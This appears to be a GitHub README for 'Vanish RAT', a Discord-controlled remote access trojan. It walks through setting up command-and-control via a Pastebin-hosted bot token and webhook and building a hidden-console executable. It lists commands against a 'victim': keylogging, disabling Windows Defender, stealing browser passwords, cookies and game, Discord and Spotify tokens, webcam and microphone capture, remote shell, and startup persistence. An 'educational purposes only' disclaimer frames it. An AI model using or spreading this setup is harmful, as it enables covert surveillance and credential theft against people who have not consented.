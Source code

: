 
![discord](https://github.com/user-attachments/assets/341b5144-9c33-40ec-b229-c4ce3ad8a600)

           For educational purposes only!!
             Discord Rat - Setup Guide
--------------------------------------------------------
Author  : @deadconvicess | Packaged By: #deadconvicess
License : MIT
--------------------------------------------------------

 WHAT YOU NEED
----------------
1. Python 3.11+ Installed
2. A Discord Bot Token (https://discord.com/developers/applications)
3. A Discord Webhook URL (Discord Channel > Integrations > Webhooks)
4. Pastebin or Gist account for hosting config


 SETUP INSTRUCTIONS
---------------------
1. Create a Pastebin/Gist with:
   Line 1: Your Discord Bot Token
   Line 2: Your Discord Webhook URL

2. Make sure it's RAW viewable (Unlisted or Public)

3. Copy the RAW link and paste it into Rat.py:
   Example:
   config_url = "https://pastebin.com/raw/YourPasteID"

4. Install the required packages:
   pip install -r requirements.txt
   OR manually install:
   pip install discord requests pypiwin32 pycaw comtypes opencv-python numpy sounddevice scipy pyautogui pynput cryptography pycryptodome pillow aiofiles pyttsx3

5. Run the bot:
   python Rat.pyw


 OPTIONAL: BUILDING EXE
---------------------------------
For No Console Window:
- Nuitka: pip install nuitka
  nuitka --onefile --windows-disable-console Rat.py

- OR PyInstaller: pip install pyinstaller
  pyinstaller --onefile --noconsole Rat.py


DISCORD COMMAND PANEL
---------------------------
Once bot is running, type:
   .help
To view available commands.

Vanish Commands:
.info           – System info From Victim
.geo            – IP & Geo From Victim
.admin          - Ask For Admin
.key start/stop – Start or stop keylogger
.dwd            – Disable Windows Defender
.rtp            – Disable Real Time Protection
.kill           – Kill "process" 
.disablemgr     - Disables Task Manager
.enablemgr      – Enables Task Manager
.openurl <link> – Open Link in browser
.up             – Upload a file To Victims Pc 
.df             – Delete Uploaded File
.qr             – Connects to wifi via qr
.record         – Screen record Victims Pc 
.ss             – Screenshot Victims Pc
.webcam         – Take webcam photo
.sf (File Name) - File Stealer         - 
.af             - Steals Auto Fill
.pw             – Browser Passwords
.gc             – Grab Browser Cookies
.net            – Netflix Info Grabber
.epic           - Epic Games Grabber
.steam          – Steam Grabber
.riot           – Riot Grabber
.token          – Discord token grabber
.reg            – Add to Startup(Registry)
.rmreg          – Remove from Startup(Registry)
.wifi           - Wifi Info Grabber
.cb             - Clipboard Grabber
.sp             – Spotify token grabber
.v <0–100>      - Set system volume
.shell <cmd>    – Run Cmd/Shell Commands
.list           – Running processes From Victim
.history        – Browser history From Victim
.Mic            – Record Victims microphone
.speak "msg"    - Uses TTS To Say Custom Msgs
.msg "msg"      – Message Victim Via Msg Box
.stup           – Add to startup (Task)
.clearstup      – Remove from startup (Task)
.dl             – Grab download history
.wp             – Set wallpaper To Victims Pc
.gwp            – Grab Victims Wallpaper
.moff           – Turn off monitor
.mon            – Turn on monitor
.shutdown       – Shutdown PC
.crash          – Crash Victims Pc 
.restart        – Restart PC
.sd             – Self Delete Incase Of Emergency
.troll          – Open troll Commands
.exit           – Kill Rat


 TROUBLESHOOTING
-------------------
- Check bot token and webhook are valid and accessible
- Ensure all packages are installed
- Make sure you used a RAW Pastebin/Gist link


ENJOY USING VANISH RAT 1.0 

 For educational purposes only!!
--------------------------------------------------------

